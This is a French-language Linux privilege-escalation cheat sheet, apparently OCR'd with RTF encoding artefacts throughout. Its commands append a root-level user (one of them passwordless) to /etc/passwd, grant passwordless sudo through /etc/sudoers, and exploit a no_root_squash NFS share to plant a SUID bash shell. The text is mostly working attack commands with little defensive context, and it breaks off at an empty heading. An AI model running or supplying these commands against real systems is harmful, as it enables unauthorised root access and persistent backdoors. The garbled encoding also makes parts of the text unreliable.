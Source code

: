 ```powershell\
On g\'e9n\uc0\u232 re d\'92abord un mot de passe avec la commande suivante.\
\
```powershell\
openssl passwd -1 -salt hacker hacker\
mkpasswd -m SHA-512 hacker\
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'\
```\
\
On ajoute ensuite l\'92utilisateur `hacker` et on ajoute le mot de passe g\'e9n\'e9r\'e9.\
\
```powershell\
hacker:MOT_DE_PASE_GENERE:0:0:Hacker:/root:/bin/bash\
```\
\
Exemple: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`\
\
On peut d\'e9sormais utiliser la commande `su` avec `hacker:hacker`\
\
En alternative, on peut utiliser les lignes suivantes pour ajouter un utilisateur \'91d\'e9bile\'92 sans mot de passe.\
:warning: Vous pouvez d\'e9grader la s\'e9curit\'e9 de la machine\
\
```powershell\
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd\
su - dummy\
```\
\
NOTE: Sur les plateformes BSD `/etc/passwd` est situ\'e9 dans `/etc/pwd.db` et `/etc/master.passwd`. Le `/etc/shadow` est \'e9galement renomm\'e9 en `/etc/spwd.db`. \
\
### /etc/sudoers avec les permissions en \'e9criture\
\
```powershell\
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers\
\
# On utilise sudo sans mot de passe :)\
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers\
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers\
```\
\
## Ecrasement des donn\'e9es NFS Root\
\
quand **no_root_squash** appara\'eet dans `/etc/exports`, le fichier est partageable est un utilisateur distant peut le monter.\
\
```powershell\
# On v\'e9rifier le nom du dossier \uc0\u224  distance\
showmount -e 10.10.10.10\
\
# On cr\'e9e un r\'e9pertoire\
mkdir /tmp/nfsdir  \
\
# Et on le monte \
mount -t nfs 10.10.10.10:/shared /tmp/nfsdir    \
cd /tmp/nfsdir\
\
# On copie le shell que l\'92on souhaite \
cp /bin/bash . 	\
\
# On d\'e9finie la permission SUID\
chmod +s bash 	\
```\
\
## Library partag\'e9e\
\
```